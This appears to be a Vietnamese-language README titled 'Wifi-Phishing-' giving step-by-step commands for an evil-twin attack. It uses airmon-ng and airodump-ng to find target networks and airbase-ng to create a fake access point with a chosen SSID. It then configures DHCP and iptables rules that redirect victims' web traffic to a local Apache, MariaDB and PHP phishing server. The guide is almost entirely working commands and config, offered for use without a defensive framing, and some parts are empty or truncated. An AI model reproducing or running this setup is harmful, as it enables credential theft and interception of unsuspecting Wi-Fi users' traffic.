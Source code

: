 # Wifi-Phishing-


1. Khởi động terminal và gõ lệnh sau.
  apt-get update
  apt-get install isc-dhcp-server –y
2. Cấu hình isc-dhcp-server bằng cách chỉnh sửa /etc/dhcp/dhcpd.conf.
  authoritative;
  default-lease-time 600;
  max-lease-time 7200;
  subnet 192.168.1.0 netmask 255.255.255.0
  {
    option subnet-mask 255.255.255.0;
    option broadcast-address 192.168.1.255;
    option routers 192.168.1.1;
    option domain-name-servers 8.8.8.8;
    range 192.168.1.10 192.168.1.100;
  }
II. Cấu hình web server
III. Giải quyết vấn đề xung đột giữa Airmon-Ng và Network Manager
  Tại  tập tin /etc/NetworkManager/NetworkManager.conf thêm: 
  [keyfile]
  unmanaged-devices=interface-name:wlan0mon;interfacename:wlan1mon;interface-name:wlan2mon;interface-   name:wlan3mon;interfacename:wlan4mon;interfacename:wlan5mon;interfacename:wlan6mon;interfacename:wlan7mon;interface-name:wlan8mon;interface-    name:wlan9mon;interfacename:wlan10mon;interface-name:wlan11mon;interface-name:wlan12mon
IV. Tạo Wifi Access Point giả
  1. Mở wireless adapter vào chế độ giám sát:
    airmon-ng start wlan0
  2. Dùng lệnh sau để theo dõi thông số các wifi internet trong phạm vi, để lấy thông tin wireless mục tiêu:
    airodump-ng wlan0mon
  3. Tiến hành khởi tạo AP giả:
    airbase-ng -e "<SSID>" -c 1 wlan0mon
  4. Mặc định airbase-ng sẽ tạo một interface at0 để bridge luồng traffic thông qua rogue access point, sử dụng lệnh ifconfig at0 để xem
  5. Tiến hành phân bổ địa chỉ IP và Subnet Mask cho cổng at0 và định tuyến:
    ifconfig at0 192.168.1.1 netmask 255.255.255.0
    route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
  6. Xem thông tin định tuyến để lấy địa chỉ ip:
    ip route
V. Thiết lập Rule cho firewall
  1. Cấu hı̀nh cho phép client khi kết nối access point giả có thể ra mạng internet:
    iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
    iptables --append FORWARD --in-interface at0 -j ACCEPT
    iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168..:80
    iptables -t nat -A POSTROUTING -j MASQUERADE
  2. Kích hoạt forwarding.
    echo 1 > /proc/sys/net/ipv4/ip_forward
VI. Khởi động các dịch vụ
  1. Cấp phát địa chı̉cho client khi kết nối vào access point giả
    dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhclient-eth0.pid at0
  2. Khởi động các dịch vụ
    service isc-dhcp-server start
    service apache2 start
    sudo apt install mariadb-server
    sudo mysql_secure_installation
    sudo apt install php libapache2-mod-php php-mysql
    
    #$db = new PDO("mysql:host=localhost;dbname=$database", $user, $password);
